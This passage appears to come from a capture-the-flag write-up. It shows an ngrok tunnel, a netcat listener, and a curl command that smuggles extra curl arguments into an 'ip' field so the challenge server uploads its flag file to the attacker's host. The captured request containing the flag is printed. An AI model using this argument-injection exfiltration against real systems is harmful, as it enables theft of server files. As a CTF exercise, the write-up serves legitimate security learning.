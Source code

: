 ```text
Forwarding                    http://1f106a9e85a2.ngrok.io -> http://localhost:4444                                    
Forwarding                    https://1f106a9e85a2.ngrok.io -> http://localhost:4444                                   
                                                                                                                       
Connections                   ttl     opn     rt1     rt5     p50     p90                                              
                              0       0       0.00    0.00    0.00    0.00             
```

In the second I'm using `netcat`:

```sh
$ nc -lvnp 4444

listening on [any] 4444 ...
```

`-l` for listen, `-v` for verbose, `-n` for numeric IPs, and `-p` to specify port.

And to retrieve the flag (from downloadable we know that flag is located 2 levels above the working directory of the script):

```sh
curl -H "application/x-www-form-urlencoded" -d 'ip=-F fg=@../../flag 1f106a9e85a2.ngrok.io' -v 138.68.178.56:32236/api/curl
```

**Bingo**.

Output from the `netcat`:

```sh
listening on [any] 4444 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58946
POST / HTTP/1.1
Host: 1f106a9e85a2.ngrok.io
User-Agent: curl/7.64.0
Content-Length: 227
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------a588a0571ed8077f
X-Forwarded-For: 138.68.178.56
X-Forwarded-Proto: http
Accept-Encoding: gzip

--------------------------a588a0571ed8077f
Content-Disposition: form-data; name="fg"; filename="flag"
Content-Type: application/octet-stream

CHTB{f1le_r3trieval_4s_a_s3rv1ce}
--------------------------a588a0571ed8077f--
```

[Back to top](#contents) ⤴
